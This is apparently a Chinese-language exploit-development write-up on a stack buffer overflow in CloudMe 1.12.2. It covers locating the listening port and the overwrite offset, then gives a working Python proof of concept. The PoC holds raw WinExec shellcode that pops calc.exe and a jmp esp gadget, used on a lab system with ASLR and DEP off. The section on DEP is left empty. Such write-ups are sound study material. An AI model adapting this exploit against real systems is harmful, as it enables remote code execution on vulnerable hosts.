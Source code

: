 ## cloudme 1.12.2 buffer overflow

2019-5-30

exploit-db上的POC<https://www.exploit-db.com/exploits/46218>

可在该网站下到本文使用到的二进制文件

### 确定漏洞

在安装程序后，运行CloudMe，使用`netstat -ano`命令发现，该程序会在本地回环地址127.0.0.1上监听TCP8888端口。

```
C:\Users\leaf>netstat -ano
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2908
```

使用python单次发送大量数据(8000个字节），程序会崩溃，确定有溢出的情况

由于程序使用到了QT中的网络请求函数，由于没用过此库，直接给recv函数下断没有反应，于是首先二分算法大致找到溢出至少需要发送的字节。然后再根据程序崩溃信息确定覆盖EIP的地方



### 漏洞利用

测试环境为 Windows 7 SP1 x64，关闭了ASLR和DEP

经过测试程序的栈上数据可以执行，于是考虑写入shellcode，通过跳转进行恶意代码的执行

此处使用的shellcode能自动定位WinExec函数在内存中的位置，详情见[跨Windows版本的shellcode](../windows_shellcode.md)

poc:

```python
#python3
from socket import *

buf=b'\x50\x53\x51\x52\x56\x57\x55\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6E\x45\x89\x65\xFC\x31\xF6\x64\x8B\x5E\x30\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x8B\x50\x1C\x01\xDA\x89\x55\xEC\x8B\x50\x14\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x0A\x40\x39\xD0\x72\xE5\x83\xC4\x26\xEB\x3F\x8B\x4D\xF4\x8B\x55\xEC\x66\x8B\x04\x41\x8B\x04\x82\x01\xD8\x31\xD2\x52\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x0A\x56\xFF\xD0\x83\xC4\x46\x5D\x5F\x5E\x5A\x59\x5B\x58\xC3' #call winexec to run calc.exe

jmpesp = b'\x9d\xdc\x86\x77'#7786DC9D  - FFE4            jmp esp, from kernel32.dll

def trigger(byte):
    fd = socket()
    fd.connect(("127.0.0.1", 8888))
    fd.send(b'a'*byte+b'BBBB' + jmpesp + buf)
    fd.close()

trigger(1048)

```

代码执行后服务崩溃，并会弹出一个计算器



### DEP与EXP

为了增加难度，开启了DEP



### 扩展阅读

portable windows shellcode编写<https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html>